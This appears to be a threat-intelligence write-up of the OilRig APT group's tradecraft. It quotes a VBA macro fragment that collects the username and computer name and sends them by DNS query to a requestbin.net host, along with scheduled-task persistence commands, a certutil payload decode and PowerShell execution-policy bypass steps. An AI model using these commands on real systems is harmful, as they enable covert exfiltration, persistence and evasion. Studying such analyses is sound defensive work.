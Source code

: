# OilRig

## Features

1. Use malicious macros with DNS tunnel to confirm the current execution stage and identify victim information.

```C
Sub Document_open()
       Randomize
       hostname = LCase(Environ("computername"))
       hostname = Mid(hostname, Len(hostname) - 3, 4)
       username = Mid(LCase(Environ("username")), 1, 3)
       domain = "[Subdomain].requestbin.net"
       Call DnsQuery(myDomain(1)，DNS_TYPE_A, 0, 0, 0, 0)
```

2. The delivered backdoor file will first collect the basic information of the victim's computer, and then calculate a 4-byte victim identifier based on the user name, computer name, and domain of the system environment for subsequent C2 communication.

3. The ISMinjector Trojan will create two scheduled tasks during persistence.

```bash
SchTasks /Create /SC MINUTE /MO 4 /TN \"ReportHealth\" /TR \"%localappdata%\\srvHealth.exe\" /f
//Run every 4 minutes srvHealth.exe
SchTasks /Create /SC MINUTE /MO 2 /TN \"LocalReportHealth\" /TR \"cmd.exe /c certutil -decode %localappdata%\\srvBS.txt %localappdata%\\srvHealth.exe && schtasks /DELETE /tn LocalReportHealth /f && del %localappdata%\\srvBS.txt\""
//Run every 2 minutes, Certil copies the payload in srvBS.txt to srvHealth.exe and deletes the source file
```

4. The BondUpdater Trojan will download two files when the victim enables the macro of the phishing document:

>	C:\ProgramData\WindowsAppPool\AppPool.vbs

>	C:\ProgramData\WindowsAppPool\AppPool.ps1

Macro by executing:wscript C:\ProgramData\WindowsAppPool\AppPool.vbs,Command to create a scheduled task as:cmd.exe /C schtasks /create /F /sc minute /mo 1 /tn "\WindowsAppPool\AppPool" /tr "wscript /b "C:\ProgramData\WindowsAppPool\AppPool.vbs""，make its BondUpdater contain persistence.
After creating the scheduled task, it will pass:PowerShell.exe -exec bypass -file C:\ProgramData\WindowsAppPool\AppPool.ps1，use C2 communication with DNS tunnel.
